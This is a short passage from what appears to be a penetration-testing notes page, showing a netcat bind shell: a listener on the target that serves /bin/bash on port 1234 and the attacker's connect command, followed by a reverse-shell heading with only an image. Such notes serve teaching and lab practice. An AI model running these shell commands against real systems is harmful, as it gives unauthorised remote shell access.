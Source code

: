 ![Bind Shell - Windows](.gitbook/assets/image-20230423215745094.png)

```bash
# Target Linux machine - Bind shell listener with /bin/bash
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.24.2 1234
```

![Bind Shell - Linux](.gitbook/assets/image-20230423222515800.png)

### Reverse Shells

![Reverse Shell - geeksforgeeks.org](.gitbook/assets/Reverseshell-660x309.png)
